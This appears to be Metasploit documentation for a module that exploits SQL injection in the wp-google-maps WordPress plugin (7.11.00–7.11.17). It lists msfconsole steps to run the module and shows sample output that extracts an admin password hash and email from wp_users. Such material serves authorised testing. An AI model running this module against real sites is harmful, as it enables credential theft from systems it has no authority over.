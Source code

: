 ## Vulnerable Application

This module works against `wp-google-maps` between 7.11.00 and 7.11.17 (included).

[The vulnerable version is available on WordPress' plugin directory](https://downloads.wordpress.org/plugin/wp-google-maps.7.11.17.zip).

## Verification Steps

  1. `msfconsole`
  2. `use auxiliary/admin/http/wp_google_maps_sql_injection`
  3. `set RHOST <host.tld>`
  4. Set `DB_PREFIX` if necessary
  5. `run`

## Options

### `DB_PREFIX` 

Change the table prefix. By default, this option is set to `wp_`.

## Scenarios

### wp-google-maps 7.11.17 on WordPress 5.1.1

```
msf5 auxiliary(admin/http/wp_google_maps_sql_injection) > run
[*] Running module against 127.0.0.1

[*] 127.0.0.1:80 - Trying to retrieve the wp_users table...
[+] 127.0.0.1:80 - Found admin $P$Bbfp4csOlKV/XoKGjqViW1pWFzTlQz/ junk@junk.tld
[!] No active DB -- Credential data will not be saved!
[+] Credentials saved in: /home/user/.msf4/loot/2019(...).txt
[*] Auxiliary module execution completed
```
